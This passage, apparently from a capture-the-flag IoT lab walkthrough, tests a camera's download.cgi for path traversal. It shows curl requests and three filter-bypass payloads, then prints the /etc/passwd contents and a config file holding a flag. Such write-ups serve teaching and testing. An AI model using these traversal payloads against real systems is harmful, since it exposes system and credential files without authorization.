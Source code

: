 ```bash
# Test download.cgi for path traversal
curl "http://192.168.1.132/cgi-bin/download.cgi?file=test.txt"
```

**Output:**
```
Error: File not found
```

```bash
# Try path traversal with ../
curl "http://192.168.1.132/cgi-bin/download.cgi?file=../../../etc/passwd"
```

**Output:**
```
Error: Invalid file path - contains ../
```

The `../` is filtered! Let's try bypass techniques:

```bash
# Bypass Technique 1: Double encoding
curl "http://192.168.1.132/cgi-bin/download.cgi?file=..%252f..%252f..%252fetc%252fpasswd"

# Bypass Technique 2: Double slashes
curl "http://192.168.1.132/cgi-bin/download.cgi?file=....//....//....//etc/passwd"

# Bypass Technique 3: Absolute path (often forgotten!)
curl "http://192.168.1.132/cgi-bin/download.cgi?file=/etc/passwd"
```

**Successful Output (absolute path worked):**
```
root:x:0:0:root:/root:/bin/sh
daemon:x:1:1:daemon:/usr/sbin:/bin/false
www-data:x:33:33:www-data:/var/www:/bin/false
camera_svc:x:1000:1000::/home/camera_svc:/bin/sh
```

```bash
# Now get the system configuration
curl "http://192.168.1.132/cgi-bin/download.cgi?file=/var/config/system.conf"
```

**Output:**
```
# System Configuration
device_name=AXIS-P1435-LE
firmware_version=10.5.0
serial_number=ACCC8E123456
config_flag=FLAG{GALADRIEL57815620}
last_update=2024-01-01
api_endpoint=https://api.axis.com/v1/update
```

> 🏁 **FLAG #6 FOUND!**
> **Flag**: FLAG{G***********0}
> **Learning Objective**: Path traversal filter bypass
> **OWASP IoT**: #3 - Insecure Ecosystem Interfaces
